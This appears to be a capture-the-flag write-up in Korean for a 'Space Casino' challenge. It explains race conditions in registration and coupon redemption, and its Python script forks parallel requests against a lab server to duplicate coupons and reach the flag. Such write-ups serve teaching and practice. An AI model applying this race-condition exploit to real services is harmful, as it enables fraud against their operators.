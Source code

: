 # Space Casino

# Usage

# Concept
- Race Condition

# Writeup

회원가입에서 race condition을 발생시키면 동일한 userid의 계정이 여러 개 생성되므로 userid에 대한 쿠폰 역시 여러 개 발행된다

쿠폰 사용에서 race condition을 발생시키면 하나의 쿠폰으로 의도된 1000캐시보다 많은 돈을 얻을 수 있다

위 두 취약점을 같이 사용하면 목표 금액인 31337을 넘은 돈을 가질 수 있다

### ex.py

```python
import os
import requests
import re

url = "http://prob:5000"

userid = os.urandom(8).hex()
password = os.urandom(8).hex()

a = os.fork()
b = os.fork()
c = os.fork()
d = os.fork()
e = os.fork()

requests.post(url + "/register", data={"userid": userid, "password": password})

if a == 0 or b == 0 or c == 0 or d == 0 or e == 0:
    exit()

s = requests.Session()
s.post(url + "/login", data={"userid": userid, "password": password})
session = s.cookies['session']
coupons = requests.get(url + "/coupons", cookies={'session': session}).text
coupons = re.findall(r'<td><a href="/coupons/(.*?)">Welcome Coupon', coupons)

for coupon in coupons:
    a = os.fork()
    b = os.fork()
    c = os.fork()
    d = os.fork()
    e = os.fork()
    requests.get(url + f"/coupons/{coupon}", cookies={'session': session})
    if a == 0 or b == 0 or c == 0 or d == 0 or e == 0:
        exit()

flag = requests.get(url + "/flag", cookies={'session': session}).text
print(flag)
```